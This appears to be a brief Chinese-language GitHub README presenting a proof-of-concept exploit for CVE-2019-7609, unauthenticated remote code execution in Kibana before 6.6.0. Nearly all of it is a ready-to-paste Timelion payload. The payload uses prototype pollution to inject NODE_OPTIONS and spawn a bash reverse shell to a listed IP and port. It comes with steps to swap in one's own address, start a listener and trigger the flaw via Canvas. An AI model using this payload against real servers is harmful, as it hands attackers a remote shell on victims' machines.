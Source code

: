 ## CVE-2019-7609-kibana<6.6.0未授权远程代码命令执行

## POC
将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：  

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞。  

